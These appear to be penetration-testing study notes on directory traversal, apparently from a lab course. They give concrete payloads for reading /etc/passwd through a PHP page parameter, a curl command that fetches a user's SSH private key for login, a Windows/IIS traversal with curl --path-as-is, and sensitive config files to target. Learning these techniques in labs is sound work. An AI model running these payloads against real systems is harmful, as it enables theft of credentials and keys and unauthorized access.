 ## Directory Traversal

Use `../` to navigate 1 directory backward from your current directory. If you string them together and use `cat`, you can go to root and navigate from there:

```bash
cat ../../../../../../../../../../../etc/passwd
```

### Identifying and Exploiting Directory Traversals
On Linux, `/var/www/html/` is often used as the web root. 

To start identifying all the potential directory traversals, first find all the URLS on a webpage by hovering over all buttons and links.

To make this easier, run this in the browser console on the website. It will display the URL, anchor text and whether the URL refers to an external website:
```JavaScript
const results = [
    ['Url', 'Anchor Text', 'External']
];
var urls = document.getElementsByTagName('a');
for (urlIndex in urls) {
    const url = urls[urlIndex]
    const externalLink = url.host !== window.location.host
    if(url.href && url.href.indexOf('://')!==-1) results.push([url.href, url.text, externalLink]) // url.rel
}
const csvContent = results.map((line)=>{
    return line.map((cell)=>{
        if(typeof(cell)==='boolean') return cell ? 'TRUE': 'FALSE'
        if(!cell) return ''
        let value = cell.replace(/[\f\n\v]*\n\s*/g, "\n").replace(/[\t\f ]+/g, ' ');
        value = value.replace(/\t/g, ' ').trim();
        return `"${value}"`
    }).join('\t')
}).join("\n");
console.log(csvContent)
```

Example:

URL: `http://mountaindesserts.com/meteor/index.php?page=admin.php`

You can see this uses PHP and a parameter called "page". This is probably used to display different pages too, e.g. "page=login.php". 

PHP uses _$_GET_ to manage variables via a GET request

For the above example, the URL displays a parameter and a value. Try the value as a path, and maybe you see the same page! This indicates that the web application includes information from the "page" parameter and shows it under the "admin" link. I.e. the `page=` parameter takes input and displays it. Normally, this would be a webpage file, but you can use this to navigate the directories! E.g.:

`http://mountaindesserts.com/meteor/index.php?page=../../../../../../../../../etc/passwd`

To display list of users.

Can potentially be used to display SSH private key and then connect using this key, e.g.:
```bash
curl http://mountaindesserts.com/meteor/index.php?page=../../../../../../../../../home/offsec/.ssh/id_rsa
```

#### Windows
Instead of /etc/passwd, default is C:\Windows\System32\drivers\etc\hosts, since it is readable by all users.

More difficult, since no equivalent to /etc/passwd means no user list and no indication of where to check for SSH keys.

For IIS servers, always check:
- C:\inetpub\logs\LogFiles\W3SVC1\
- C:\inetpub\wwwroot\web.config
- Documentation of IIS to see whether there are any other potentially useful files.

For Windows IIS, it the "payload" **usuallly** does not change, e.g. to \.
```bash
curl --path-as-is 192.168.202.193:3000/public/plugins/alertlist/../../../../../../../../../../../../../../../../../Users/install.txt -v
```
Worked to display file located in C:\Users\install.txt
